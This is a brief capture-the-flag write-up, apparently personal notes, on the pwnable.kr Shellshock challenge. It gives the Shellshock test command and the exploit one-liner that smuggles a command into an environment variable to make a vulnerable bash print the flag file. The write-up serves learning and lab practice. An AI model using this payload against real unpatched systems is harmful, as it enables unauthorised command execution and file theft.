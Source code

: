 ```yaml
---
title: Pwnable.kr Shellshock
date: 2022-08-20T14:06:14+02:00
tags: ['cs/security']
aliases: ['']
---
```


This challenge has a bash executable in the home directory which the shellshock
executable runs like below:

```c
system("/home/shellshock/bash -c 'echo shock_me'");
```

The bash binary is vulnerable to [[notes/Shellshock | shellshock]] as can be seen by the following
command:


```bash
env x='() { :;}; echo vulnerable' ./bash -c 'echo hello'
```

Since the binary simply calls the bash binary, we can the command below to run
the flag:

```bash
env x='() { :;}; /bin/cat flag' ./shellshock
```

